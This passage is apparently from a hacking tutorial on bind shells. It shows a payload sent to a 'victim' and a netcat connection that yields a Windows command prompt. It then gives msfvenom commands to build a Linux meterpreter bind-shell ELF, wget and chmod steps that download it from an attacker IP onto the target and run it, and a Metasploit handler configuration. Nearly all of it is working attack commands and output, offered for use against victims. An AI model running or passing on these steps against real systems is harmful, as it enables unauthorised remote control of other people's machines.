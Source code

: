 
This payload hides on the background silently. Once the payload is generated and send to the victim for execution, we will start our next step as shown below.


_Now from the kali Terminal let us type the command:_

```
nc <target_ip> <port>

nc 192.168.10.44 1010


Version 10.0.19045.5247]
(c) Microsoft Corporation. All rights reserved.

C:\Users\ISTL PC-3\Downloads\Programs>
```





#### For Linux: [worked]

```
msfvenom -p linux/x86/meterpreter/bind_tcp -f elf > /var/www/html/bind_shell.elf

msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=4444 -f elf > /var/www/html/bind_shell.elf
```



_Download On Remote (Target) host:_

```
wget http://<attacker-ip>/bind_shell.elf

wget http://192.168.10.193/bind_shell.elf
```


```
chmod +x bind_shell.elf
./bind_shell.elf
```





_Using Metasploit:_

```
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp

set RHOST 192.168.10.192
set LPORT 4444

show options
```
